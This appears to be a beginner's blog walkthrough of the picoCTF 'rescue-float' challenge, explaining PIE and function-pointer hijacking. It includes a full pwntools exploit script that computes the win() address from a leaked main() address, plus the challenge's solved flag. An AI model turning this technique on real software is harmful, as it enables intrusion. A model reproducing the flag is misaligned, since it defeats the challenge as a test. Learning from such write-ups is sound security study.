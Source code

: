 ```yaml
---
title: 'PicoCTF Writeup #490'
date: 2025-08-19T14:20:15+07:00
draft: false
description: ''
tags: ['CTF', 'binary exploit']
---
```


## Binary Exploitation Challenge (PIE & Function Hijacking in picoCTF)

I’ve always been fascinated by low-level programming and security, but up until now I hadn’t really tried a **binary exploitation challenge**. Recently, I stumbled upon [this picoCTF challenge](https://play.picoctf.org/practice/challenge/490) called *“rescue-float”* — and let me tell you, it was a mix of confusion, discovery, and a little bit of victory at the end.

This post is a casual walkthrough of how I approached it as a beginner. If you’re into Linux, development, or cybersecurity, you’ll probably find this fun (or at least relatable if you remember your first binary exploitation adventure).



## The Challenge Setup

We’re given a binary and its source code. The task is to “try to get the flag” while keeping in mind that **PIE (Position Independent Executable)** is enabled.

When you run the binary, it prints the address of `main` and asks for an address to jump to:

```bash
$ ./vuln
Address of main: 0x55709267a33d
Enter the address to jump to, ex => 0x12345: 0x80
Your input: 80
Segfault Occurred, incorrect address.
```

On the remote server, the behavior is the same — except the addresses are totally different each time. That got me thinking: *what’s going on here?*



## First Observations

Digging into the binary with `strings`, I spotted something very interesting:

```
Segfault Occurred, incorrect address.
You won!
flag.txt
Cannot open file.
```

That `"You won!"` string was a big clue. Clearly, there’s a `win()` function hidden in there that we need to call instead of crashing.

So the real trick is figuring out the runtime address of `win()`.



## A Quick Detour: What’s PIE?

At first, I thought PIE was about pie (yes, 3.14 🍰). Turns out, PIE stands for **Position Independent Executable**.

In simple terms: every time you run the program, its code is loaded into a different random memory location. That means addresses of functions like `main()` or `win()` change constantly.

To exploit it, you need to:

1. Leak one known address (in this case, the program conveniently prints the address of `main()`).
2. Use that to calculate the **base address** of the binary in memory.
3. From there, compute the real address of `win()`.



## Peeking at the Source

Here’s the core of the challenge:

```c
int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0);

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

Yep, the program literally takes your input, interprets it as a function pointer, and jumps there. If you guess wrong? *Segfault.* Guess right? *Profit.*



## Exploit Development (with Pwntools)

I used **pwntools**, which makes life much easier for challenges like this. The plan:

1. Leak the runtime address of `main`.
2. Compute the PIE base address.
3. Add the offset of `win()` to get its actual address.
4. Send that address back as input.

Here’s the final script:

```python
from pwn import *

HOST = "rescued-float.picoctf.net"
PORT = 63489  # (check challenge for actual port)

elf = context.binary = ELF("./vuln")
p = remote(HOST, PORT)

# Leak main()
p.recvuntil(b"Address of main: ")
leaked_main = int(p.recvline().strip(), 16)
log.info(f"Leaked main: {hex(leaked_main)}")

# Compute PIE base
pie_base = leaked_main - elf.sym['main']
elf.address = pie_base
log.info(f"PIE base: {hex(pie_base)}")

# Compute win()
win_addr = elf.sym['win']
log.success(f"win() at: {hex(win_addr)}")

# Send it
p.recvuntil(b"Enter the address to jump to")
p.sendline(hex(win_addr).encode())

# Get the flag
print(p.recvall().decode(errors="ignore"))
```

And boom — the output:

```
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_cb52e722}
```



## Reflections

Honestly, this was overwhelming at first. I had to Google like crazy, read about PIE, function pointers, and pwntools usage. But that’s the fun part — these challenges force you to learn by doing.

Key takeaways for me:

* PIE randomizes addresses, but once you leak one function’s address, you can recover the rest.
* Binary exploitation isn’t always about buffer overflows. Sometimes, the vulnerability is right in front of you (like letting the user call any address they want).
* Pwntools is an absolute lifesaver.



## Final Thoughts

If you’re new to binary exploitation like me, this challenge is a fantastic first step. You’ll get a feel for memory addresses, PIE, and how attackers chain small leaks into bigger exploits.

Also, remember: it’s okay to feel lost at first. Every expert you admire in Linux, development, or security once stared at a disassembly dump and thought, *“What on earth is this?”*

The best advice? Keep poking, keep experimenting, and don’t be afraid to Google shamelessly.
